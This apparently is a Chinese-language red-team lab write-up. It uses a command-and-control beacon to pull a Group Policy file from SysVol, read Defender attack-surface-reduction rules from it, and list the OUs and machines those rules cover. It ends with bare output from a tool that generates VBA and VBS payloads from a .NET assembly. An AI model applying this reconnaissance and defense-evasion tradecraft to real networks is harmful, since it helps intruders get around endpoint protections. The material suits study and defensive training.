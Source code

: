 下载 Registry.pol 

```
beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol
[*] Tasked beacon to download \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol
[+] host called home, sent: 121 bytes
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol (1588 bytes)
[*] download of Registry.pol is complete
```

并使用 Parse-PolFile 读取它
```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR
ValueName   : ExploitGuard_ASR_Rules
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules
ValueName   : d4f940ab-401b-4efc-aadc-ad5f3c50688a
ValueType   : REG_SZ
ValueLength : 4
ValueData   : 1
```

ExploitGuard_ASR_Rules的ValueData是1，表示启用了 ASR 规则

下面是 GUID 提供的每个 ASR 规则
D4f940ab-401b-4efc-aadc-ad5f3c50688a 阻止所有 Office 应用程序创建子进程，其可能的值是：

0 - Disable
1 - Block
2 - Audit
6 - Warn


可以通过 Get-DomainOU 和-GPLink 参数找到这个 GPO 应用于哪些 OU (以及随后应用于哪些机器)。这将只返回 gplink 属性中指定的 GPOGUID 的 OU

```
beacon> powerpick Get-DomainOU -GPLink 0047C7A8-63E1-4F60-A981-D5DD7F3F8663 -Properties DistinguishedName

distinguishedname                           
-----------------                           
OU=2,OU=Workstations,DC=redteamops2,DC=local

beacon> powerpick Get-DomainComputer -SearchBase "LDAP://OU=2,OU=Workstations,DC=redteamops2,DC=local" -Properties SamAccountName

samaccountname
--------------
WKSTN-2$  
```


[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs